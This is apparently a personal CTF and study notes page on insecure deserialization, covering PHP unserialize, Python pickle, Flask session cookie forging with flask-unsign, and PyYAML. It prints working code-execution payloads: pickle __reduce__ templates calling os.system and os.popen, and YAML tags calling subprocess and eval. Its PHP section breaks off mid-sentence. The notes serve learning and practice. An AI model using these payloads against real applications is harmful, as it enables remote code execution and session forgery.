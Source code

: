 # Insecure Deserialization

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![deserialization](../../../../_badges/owasp/deserialization.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

<div class="row row-cols-lg-2"><div>

Insecure Deserialization is a vulnerability that occurs when the deserialization process can be exploited to run malicious code.
</div><div>
</div></div>

<hr class="sep-both">

## SerializedVariable Deserialization — PHP

[![php_serialization](../../../../_badges/rootme/web_server/php_serialization.svg)]()
[![php_unserialize_pop_chain](../../../../_badges/rootme/web_server/php_unserialize_pop_chain.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)

<div class="row row-cols-lg-2"><div>

The [serialize](https://www.php.net/manual/en/function.serialize.php) function can be used to convert an object to a serialized string that can be loaded back using [unserialize](https://www.php.net/manual/en/function.unserialize.php).

If the serialized data is user-controlled, we may be able to:

* 🏁 Invoke defined methods using autoloading <small>(e.g. not arbitrary)</small>
* 🔫 Manipulate data to exploit the code <small>(e.g. auth-bypass)</small>

#### Manipulate Data

We may be able to bypass some
</div><div>
</div></div>

<hr class="sep-both">

## Pickle Deserialization — Python

[![python_pickle](../../../../_badges/rootme/app_script/python_pickle.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-pickle)

<div class="row row-cols-lg-2"><div>

The python [pickle module](https://docs.python.org/3/library/pickle.html) can be used for object serialization, while it's explicitly stated that it shouldn't be used with untrusted input.

You can either use `__reduce__` or use a function following [checkoway](https://checkoway.net/musings/pickle/) article, the latter being *sightly* more complex.

```py
class Exploit(object):
    def __reduce__(self):
        # write your code here
```

To test your exploit

```py
payload = pickle.dumps(Exploit())
pickle.loads(payload)
```
</div><div>

A few code samples:

```py
        import os
        return (os.system, ("echo 'Hello, World!'",))
```

```py
        import os
        raise Exception(os.popen("whoami;id;pwd;ls -1a").read())
```

You may alternatively use pickle bytecode:

* [Pickora](https://github.com/splitline/Pickora) <small>(0.1k ⭐, 2023 🪦)</small>
* [pickleassem](https://github.com/gousaiyang/pickleassem) <small>(0.01k ⭐, 2021 🪦)</small>
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2021-33026 (Flask/Python)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![flask_unsecure_session](../../../../_badges/rootme/web_server/flask_unsecure_session.svg)](https://www.root-me.org/en/Challenges/Web-Server/Flask-Unsecure-session)

An insure deserialization in Flask (Python) allowed  a hacker to craft a malicious [cookie](/programming-languages/web/_general/random/cookies.md) with a command inside. When the cookie was deserialized, the command was executed by the server.

* Cookies can be read without the secret key
* Cookies can be forged with the secret key
* [kirsle flask cookie reader](https://www.kirsle.net/wizards/flask-session.cgi) (Website)
* See also: [flask-session-manager](https://github.com/noraj/flask-session-cookie-manager) <small>(0.6k ⭐)</small> or [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign)  <small>(0.4k ⭐)</small>

```shell!
$ pip3 install flask-unsign[wordlist]
$ sudo ln -s /home/<xxx>/.local/bin/flask-unsign /usr/bin/flask-unsign
$ flask-unsign --decode --cookie 'cookie'        # decode
$ flask-unsign --unsign --cookie 'cookie'        # find key
$ flask-unsign --sign --cookie '' --secret 'dev' # encode
```
</div><div>

#### Yaml Deserialization - PyYAML

[![python_yaml_deserialization](../../../../_badges/hacktricks/python_yaml_deserialization.svg)](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
[![yaml_deserialization](../../../../_badges/poat/yaml_deserialization.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/YAML.md)
[![yaml_deserialization](../../../../_badges/rootme/web_server/yaml_deserialization.svg)](https://www.root-me.org/en/Challenges/Web-Server/Yaml-Deserialization)

PyYAML version 6 and below instanciated by default an insecure parser which could be exploited to run python code.

```yaml!
xxx: !!python/object/apply:time.sleep [2]
```

The `xxx:` is only necessary if a specific element <small>(e.g., xxx)</small> is rendered.

```yaml!
!!python/object/apply:builtins.range [1,10,1]
!!python/object/apply:subprocess.Popen ["ls"]
!!python/object/apply:subprocess.check_output [['ls', '-la']]
!!python/object/apply:builtins.eval [ "5" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess') or 'error'" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess').check_output(['ls', '-l']).decode('utf-8') or 'error'" ]
```

➡️ See also: [python-deserialization-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) <small>(0.1k ⭐)</small>.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [ysoserial](https://github.com/frohoff/ysoserial) (Java object deserialization)
</div><div>
</div></div>